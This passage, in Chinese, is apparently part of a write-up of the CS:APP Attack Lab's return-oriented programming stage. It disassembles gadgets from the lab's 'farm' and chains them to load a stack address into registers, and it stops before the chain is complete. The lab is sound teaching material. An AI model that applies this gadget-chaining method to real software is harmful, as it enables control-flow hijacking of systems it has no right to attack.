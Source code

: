 突然，我们发现了一条有实际意义的指令

```assembly
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq 
```

该函数可以使得 %rax = %rdi + %rsi。我们的思路是 %rdi, %rsi 存储 栈地址 + 偏移量。

当前栈的地址储存在 %rsp 中。mov %rsp, 寄存器 的机器码为 48 89 e0 ~ e7 。在 farm 中查找相关代码有

```assembly
0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	retq 
```

地址 0x401a06 执行的指令为

```assembly
movq %rsp, %rax
ret
```

继续找 movq %rax 的指令

```assembly
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3
```

地址 0x4019c5 执行的指令为

```assembly
movq %rax, %rdi
ret
```

至此，%rsp 的值已保存在 %rdi 中，那么 %rdi 就存储栈地址，我们需要给 %rsi 赋值偏移量。这里立即想到popq指令：

```assembly
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3
```

还是需要借用 0x4019ab 处的指令

```assembly
popq %rax
ret
```

再将 %rax 赋给 %rsi 即可：

糟糕！farm 里没有 %rax -> %rsi 相关指令，我们需借助其他寄存器来转移到 %rsi。首先找那些寄存器可以移动至 %rsi:

? -> %rsi ：经查，有且仅有有机器码 89 ce : movl %ecx, %esi 满足要求：

```assembly
0000000000401a11 <addval_436>:
  401a11:	8d 87 89 ce 90 90    	lea    -0x6f6f3177(%rdi),%eax
  401a17:	c3
```
